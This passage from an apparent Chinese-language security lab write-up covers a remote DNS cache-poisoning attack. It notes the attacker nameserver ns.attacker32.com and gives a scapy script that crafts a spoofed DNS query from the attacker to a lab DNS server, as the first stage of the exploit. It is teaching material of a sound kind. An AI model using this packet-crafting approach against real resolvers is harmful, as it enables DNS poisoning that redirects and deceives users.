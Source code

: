 ![缓存情况](../img/dns-abnormal-req.png)
以上这个图，ns.dnslabattacker.net改为ns.attacker32.com

缓存情况下的攻击比较复杂，要拆分成几个阶段  
由于这个实验对回复包的速度有很高要求，python的scapy速度慢成功几率为0，而用c来构造发送和响应包程序复杂，
故更好的方案是用scapy来生成包，由c来发送包  

### 实现构造DNS请求

这个请求是从攻击者发往DNS服务器的

```python
from scapy.all import *

target_name="xxxxx.example.com"    

ip  = IP(dst='192.168.230.154',src='192.168.230.156')
udp = UDP(dport=53,sport=1234,chksum=0)
qds = DNSQR(qname=target_name)
dns = DNS(id=0xaaaa,qr=0,qdcount=1,ancount=0,nscount=0,arcount=0,qd=qds)
Querypkt= ip/udp/dns

with open('query.bin','wb')as f:
	f.write(bytes(Querypkt))
```
